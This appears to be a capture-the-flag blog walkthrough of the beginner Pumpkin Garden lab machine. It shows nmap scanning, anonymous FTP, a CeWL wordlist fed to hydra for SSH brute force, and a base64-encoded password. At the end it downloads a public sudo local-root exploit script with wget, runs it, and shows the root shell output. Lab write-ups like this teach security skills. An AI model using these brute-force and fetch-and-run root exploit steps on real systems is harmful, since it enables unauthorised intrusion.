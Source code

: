 # Pumpkin Garden Walkthrough

"Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinRaising is Level 2 of series of 3 machines under Mission-Pumpkin v1.0. The Level 1 ends by accessing PumpkinGarden_Key file, this level is all about identifying 4 pumpkin seeds (4 Flags - Seed ID’s) and gain access to root and capture final Flag.txt file."


After starting the Pumpkin Garden machine, which is running on Ubuntu 14.04, you will see a screen such as the one below:
![]({{ site.baseurl }}/images/PG/PG1.png)

As usual, we are going to start with scanning the ip of our target machine with the command:

```
nmap -p- -A 10.10.0.5
```

This will give us all the information about open ports and the services running on those ports. It shows that we have ftp, ssh and http, all of which are possible attack vectors.

![]({{ site.baseurl }}/images/PG/PG2.png)

From the information the scan returns to us, you can see that there are a couple of options to go about this. We are going to start with the low hanging fruit, so that we learn as much as possible along the way. So let's try ftp login as anonymous with a blank password,

```
ftp 10.10.0.5
```

![]({{ site.baseurl }}/images/PG/PG3.png)

After we get in, we can do an ls to check what is in the current directory, and there's a note. Nice. Let's grab that note and read it. It says that "Looking for PumpkinGarden? I think jack can help you find it", that's a clue that jack is a user on this machine.

So we can try an ssh as jack, but we don't have a password. We need to generate a password list that we can use for the ssh login. We can use cewl to generate that password.

To generate the password list we are going to use CeWL. CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a list of words which can then be used for password crackers such as John the Ripper.

```
cewl http://10.10.0.5:1515 -w wordlist.txt
```

After generating the wordlist, then we can use hydra to bruteforce the ssh login and point us to the correct password.

```
hydra -l jack -P wordlist.txt ssh://10.10.0.5 -s 3535
```

![]({{ site.baseurl }}/images/PG/PG5.png)

And here, we find our password, so we can go ahead and login as jack.

```
ssh -p 3535 jack@10.10.0.5
```

![]({{ site.baseurl }}/images/PG/PG6.png)

And from this, we get another clue, that there is another user by the name scarecrow. We need to find the password for scarecrow.

At this point, after trying other things, I had to move and look around the site on 10.10.0.5:1515, to see if i can find any other clue.

![]({{ site.baseurl }}/images/PG/PG7.png)

From viewing the page source, we can read the message that says "Pumpkin images may help you find the way", which is good. All we have to do is go looking into pumpkin images

![]({{ site.baseurl }}/images/PG/PG8.png)

We can do a dirb to check the urls of the images folder, and then head over there. After looking around, we'll see an image titled hidden.jpg, that's interesting. and following that, we are going to find a clue, clue.txt, with a base64 string. After decoding that, we have scarecrow's password. So we can login as scarecrow now:

```
echo <base64string> | bade64 -d
ssh -p 3535 scarecrow@10.10.0.5
```

![]({{ site.baseurl }}/images/PG/PG9.png)

In there there is another note, pointing us to the root user aka LordPumpkin, and we get the password for logging in as goblin as well, that's cool.

So we are gonna go ahead and login as goblin,

```
ssh -p 3535 goblin@10.10.0.5
```
![]({{ site.baseurl }}/images/PG/PG10.png)

The final thing we have to do is run the provided exploit to get root access, that's easy enough provided the exploit is already given to us.

```
wget https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh
```
After fetching the exploit, we have to make the file executable, and then run it. To understand more about the vulnerability please visit this link https://www.securityfocus.com/bid/38362/info

```
goblin@Pumpkin:~$ chmod +x 38362.sh 
goblin@Pumpkin:~$ ./38362.sh 38362.sh 
Tod Miller Sudo local root exploit
by Slouching
automated by kingcope
ALEX-ALEX
root@Pumpkin:/tmp# cd
root@Pumpkin:~# ls
PumpkinGarden_Key 
root@Pumpkin:~# cat PumpkinGarden_Key 
Q29uZ3JhdHVsYXRpb25zIQ==
root@Pumpkin:~# echo Q29uZ3JhdHVsYXRpb25zIQ== | base64 -d
Congratulations!
```

And we are done, we got the flag!





